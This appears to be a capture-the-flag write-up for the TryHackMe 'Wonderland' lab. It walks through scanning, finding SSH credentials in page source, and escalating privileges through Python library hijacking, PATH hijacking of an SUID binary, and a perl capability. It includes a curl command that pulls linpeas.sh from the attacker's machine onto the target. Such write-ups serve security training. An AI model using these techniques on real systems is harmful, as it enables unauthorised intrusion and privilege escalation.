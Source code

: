 Room: [Wonderland](https://tryhackme.com/room/wonderland)

Difficulty: Medium

Overview: This room is really interesting has you are going to exploit diferent types of privilege escalations, from PATH hijacking, scripting, analyzing binaries and setuid capabilities will make escalate horizontaly from user to user till you get to root!

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

We start enumerating the machine by running nmap. 

Nmap is a free and open source utility for network discovery and security auditing. With this tool we can search for open ports on a target machine.

**nmap -sV -sC -p- 10.10.189.225 -oN nmap.txt**

-sV    →  Probe open ports to determine service

-sC    →  Scan using the default set of scripts

-p-    →  Scan all ports

-oN    →  Save the ouput of the scan in a file

![nmap](https://user-images.githubusercontent.com/76821053/120692473-b7f40980-c49f-11eb-982b-ebe00cb8f77a.png)

There are two open ports on the system:

22 →  OpenSSH 7.6p1 Ubuntu 

80 →  Golang net/http server

Since there is a http server running on the system we can take a look at it:

![httphome](https://user-images.githubusercontent.com/76821053/120692565-d78b3200-c49f-11eb-8ead-c1b985a7d705.png)

After searching the webpage and its source code page i found nothing. So there is a tool called “Gobuster” which can help us search for hidden directories or files in http servers:

**gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://10.10.189.225 -x .txt,.cgi,.php,.log,.bak,.xxx,.old**

dir             → Uses directory/file enumeration mode

--wordlist      → Path to wordslist 

--url           → specifies the path of the target url we want to find any hidden directories

-x              → Search for all files with the specified extentions 

![gobuster_r](https://user-images.githubusercontent.com/76821053/120692664-fc7fa500-c49f-11eb-8f64-f80ed0af4e7b.png)

We found a new directory:

![httphome](https://user-images.githubusercontent.com/76821053/120692711-0c978480-c4a0-11eb-9c06-7a6c5b320787.png)

After reading the “Keep going” tip, i ran “Gobuster” again and found another directory:

![gobuster_a](https://user-images.githubusercontent.com/76821053/120692819-2df87080-c4a0-11eb-9b62-3ac1c16100d9.png)

So if we pay close attention to where this is leading us, we can figure it out, or else we can always keep going with “Gobuster”.

We arrived at the path **"/r/a/b/b/i/t"**:

![http_rabbit](https://user-images.githubusercontent.com/76821053/120692924-4cf70280-c4a0-11eb-8dbc-855abf925ed2.png)

In the source code of the webpage there are credentials for connecting to the target machine through ssh.

![http_source](https://user-images.githubusercontent.com/76821053/120693064-7748c000-c4a0-11eb-9570-425f75026a74.png)

We have access to the target machine with user "Alice":

![ssh_alice](https://user-images.githubusercontent.com/76821053/120693141-8d568080-c4a0-11eb-9499-54b91b12833b.png)

When enumerating the machine in search for the flags, we can see that The flag “root.txt” is in “alice” home directory which is odd.

![ls_la_alice](https://user-images.githubusercontent.com/76821053/120693204-a2331400-c4a0-11eb-9b9a-2518386f5302.png)

After checking the hint given by the room “Everthing is upside down here” i tried to access /root.

![ls_root](https://user-images.githubusercontent.com/76821053/120693289-bd9e1f00-c4a0-11eb-8ad7-c1fcbe77d01e.png)

This is very strange since we cannot list any files in here, but still i manage to have access to /root directory. 

So taking a wild guess from the tips of the room we can try to read "user.txt" inside /root and find the first flag!

![cat_user txt](https://user-images.githubusercontent.com/76821053/120693405-deff0b00-c4a0-11eb-85aa-6cb6886e0b78.png)

In order to elevate our privileges we can check "sudo -l":

![sudo_l](https://user-images.githubusercontent.com/76821053/120693519-0229ba80-c4a1-11eb-8a03-e3ae516d5721.png)

To exploit this permission given to “alice” and gain access to user "rabbit" we can check a usefull post on medium about python library hijacking:

You can check it out here:

https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8

The script "walrus_and_the_carpenter.py" imports a module called random.

![script_walrus](https://user-images.githubusercontent.com/76821053/120693624-22597980-c4a1-11eb-96c5-a66b7a9e997e.png)

The random module is located in one of the defined python paths, but if python finds a module with the same name in a folder with higher priority, it will import that module instead of the “legit” one.

So if we try and create a “random.py” script that runs /bin/bash inside the same directory of “walrus_and_the_carpenter.py”. Maybe “walrus_and_the_carpenter.py” will call for this module instead of the defined python module paths.

Simple random.py script:

![simple_random](https://user-images.githubusercontent.com/76821053/120693774-592f8f80-c4a1-11eb-8bff-7b539b7fce35.png)

List the contents of the directory to make sure the scripts are in the same directory:

![list_folder_scripts](https://user-images.githubusercontent.com/76821053/120693870-76645e00-c4a1-11eb-98c6-2f6c1042ccac.png)

Now we just need to run the "sudo -l" command with "alice".

Note that we need to specify user “rabbit” since he is the one with sudo permissions to run that python script.

![alice_rabbit_privesc](https://user-images.githubusercontent.com/76821053/120694022-a3187580-c4a1-11eb-91db-e588c5e36d84.png)

Success we are now user “rabbit”, the script “walrus_and_the_carpenter.py" imported our “random.py” and ran it.

To further our privileges we will try to take advantage of a binary inside “rabbit” home directory:

![teaParty_rabbit](https://user-images.githubusercontent.com/76821053/120694146-c3e0cb00-c4a1-11eb-985b-a51767144fd0.png)

Run the binary:

![run_teaparty](https://user-images.githubusercontent.com/76821053/120694189-d22ee700-c4a1-11eb-87a3-2e60f53a814b.png)

The binary “teaParty” has SUID permissions, and to be able to read its contents we need to transfer it to our system, since we cannot run strings on the target machine.

To transfer the file to our system we need to change “rabbit” home directory permissions to "rwx (or 777)" for all users since we don't have "rabbit's" ssh password.

![chmod_rabbit](https://user-images.githubusercontent.com/76821053/120694580-4ff2f280-c4a2-11eb-8107-e1065ce3a692.png)

From our machine we can run scp to download the file:

**scp alice@10.10.189.225:/home/rabbit/teaParty .**

![scp](https://user-images.githubusercontent.com/76821053/120694668-65681c80-c4a2-11eb-834b-15c31407b75f.png)

Now we gonna analyse the binary with "strings":

![strings_teaparty](https://user-images.githubusercontent.com/76821053/120694782-7f096400-c4a2-11eb-9419-da455c3d53f8.png)

We can see that the binary runs “/bin/echo” and also runs “date” but it don't specify the absolute path for "date".

This is another privilege escalation method here, we will take advantage of the SUID binary teaParty!

We have to create a small “date” bash script that calls for /bin/bash and export $PATH to one specified by us and take advange of “date” not having a absolute path.

![script_date](https://user-images.githubusercontent.com/76821053/120694943-ab24e500-c4a2-11eb-840e-5bf411021bbf.png)

Need to make “date” executable:

![chmod_date](https://user-images.githubusercontent.com/76821053/120694982-b9730100-c4a2-11eb-8d83-dbcebea4f85d.png)

Now just export the variable $PATH and run the binary:

![export_PATH](https://user-images.githubusercontent.com/76821053/120695104-e8897280-c4a2-11eb-8e86-803d5f22d0d4.png)

We manage the move horizontaly to another user and there is credentials in plain text in his home directory:

![hatter_creds](https://user-images.githubusercontent.com/76821053/120695203-0bb42200-c4a3-11eb-8772-8a03cfac1fc1.png)

I had a hard time with the user “hatter” in finding the last privilege escalation into “root” user.

we can use a tool called "[linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)" to automaticaly enumerate the system.

Now to upload the tool to the target system we need to started a python http server and use curl.

On our machine we setup the server where we host the “linpeas.sh” script:

**python -m SimpleHTTPServer**

![python_http](https://user-images.githubusercontent.com/76821053/120695863-c2180700-c4a3-11eb-85ee-d2251510af65.png)

From the target machine we will use curl:

**curl http://yourmachineip:8000/linpeas.sh -o linpeas.sh**

![curl_linpeas](https://user-images.githubusercontent.com/76821053/120695950-dcea7b80-c4a3-11eb-9a9c-44494c7f634c.png)

We need to make “linpeas.sh” executable:

![chmod_linpeas](https://user-images.githubusercontent.com/76821053/120695996-ed9af180-c4a3-11eb-80b8-592be139a4c2.png)

When running “linpeas.sh” i manage to found and interesting setuid binary capabilities:

![lin_capabilities](https://user-images.githubusercontent.com/76821053/120696069-03101b80-c4a4-11eb-8f58-114ca4412c41.png)

The root user (or any ID with UID of 0) gets a special privileges running processes. The kernel and applications are usually programmed to skip the restriction of some activities when seeing this user ID. 

More info on setuid capabilities can be found [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities).

I searched [GTFOBINS](https://gtfobins.github.io/gtfobins/perl/) and learned that **/usr/bin/perl** is found vulnerable to privesc.

![gtfobins](https://user-images.githubusercontent.com/76821053/120696194-2a66e880-c4a4-11eb-8d16-93fec8b6cf26.png)

Now to elevate our privileges to root we just need to execute this command:

![privesc_cat_root](https://user-images.githubusercontent.com/76821053/120696264-410d3f80-c4a4-11eb-877f-f4f6289e54c3.png)

Success! We found our last flag!














